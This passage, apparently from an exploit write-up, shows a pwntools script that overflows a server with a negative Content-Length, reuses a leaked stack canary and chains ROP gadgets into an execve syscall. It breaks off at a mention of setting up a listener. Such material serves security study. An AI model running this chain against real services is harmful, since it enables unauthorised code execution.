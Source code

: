 ```python
# use address to calculate rop gadget addresses
pop_rdi = base_addr + 0x00108876
pop_rsi = base_addr + 0x0011a533
pop_rdx = base_addr + 0x0011cca2
pop_rax = base_addr + 0x0010877f
syscall = base_addr + 0x0010a14c
sprintf = base_addr + 0x00108430

# location to build filename
buf = base_addr + 0x3e93c0
# "/tmp" string
arg1 = base_addr + 0x1bfaa0

io = start()
io.send(b'Content-Length: -1\r\n\r\n')
io.send(b'a' * 4095)
sleep(0.5)
io.send(b'b' + 
        cyclic(8) + 
        canary + 
        cyclic(24) + 
        # write /tmp to buf
        p64(pop_rdi) + 
        p64(buf) +
        p64(pop_rsi) + 
        p64(arg1) +
        p64(pop_rdx) +
        p64(4) +
        p64(sprintf) +
        # write /tmp to buf + 4
        p64(pop_rdi) + 
        p64(buf + 4) +
        p64(pop_rsi) + 
        p64(arg1) +
        p64(pop_rdx) +
        p64(4) +
        p64(sprintf) +
        # syscall
        p64(pop_rdi) + # start syscall 
        p64(buf) +
        p64(pop_rsi) +
        p64(0) + 
        p64(pop_rdx) + 
        p64(0) +
        p64(pop_rax) +
        p64(0x3b) + # execve
        p64(syscall))
io.close()
```

The final step before exploitation is to set up a listener with:
